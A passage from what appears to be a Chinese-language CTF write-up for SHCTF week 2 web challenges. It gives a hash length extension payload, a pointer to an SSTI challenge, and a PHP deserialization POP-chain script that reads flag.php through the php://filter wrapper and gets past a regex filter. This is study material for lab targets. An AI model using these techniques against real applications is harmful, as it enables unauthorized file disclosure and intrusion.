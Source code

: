 ![](https://s2.loli.net/2024/03/08/6GT3ewiB8AymEOQ.png)

明文也就是 $flag 我们不知道，直接给空

然后 hash 和长度都给 $flag 的，扩展字符随意

**payload：
Get:
url/?length=%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00abcd
POST:
SHCTF=738951256b789b8e5daef107b88a7a97**

![](https://s2.loli.net/2024/03/08/nj7INtryALHGP8p.png)

### **[WEEK2]ez_ssti**

[SSTI(模板注入) 解析 和 ctf 做法_ctf flask 模板注入-CSDN 博客](https://blog.csdn.net/m0_56107268/article/details/127927582?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169709476616800197039314%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=169709476616800197039314&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-127927582-null-null.142%5Ev96%5Epc_search_result_base3&utm_term=ssti%20ctf&spm=1018.2226.3001.4187)

![](https://s2.loli.net/2024/03/08/sAZpExJoGfjc1RU.png)

### **[WEEK2]serialize**

正则绕过，_toString _wakeup _get 非法参数名 伪协议



[PHP 反序列化](https://y4tacker.gitee.io/2021/02/03/year/2021/2%E6%9C%88/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

![](https://s2.loli.net/2024/03/08/F3ZGBvHkSaWbgwy.png)

![](https://s2.loli.net/2024/03/08/ZNGklwrCd7zQcDi.png)

```
<?php
class misca{
    public $gao;
    public $fei;
    public $a;
}
class musca{
    public $ding;
    public $dong;
}
class milaoshu{
    public $v='php://filter/read=convert.base64-encode/resource=flag.php';
}

$misca = new misca();
$musca= new musca();
$milaoshu=new milaoshu();   //创建对象

$musca ->ding = $misca;          //把对象misca给ding,在misca里没有$dong这个属性,触发_get
$misca ->gao = &$misca->a;   //把a的地址给gao，在方法_get里导致ding的值赋值给了$a
$misca ->fei = $milaoshu;        //fei的值设置为对象milaoshu，由die()触发_toString

echo serialize(array($musca));//利用数组绕过正则匹配
```
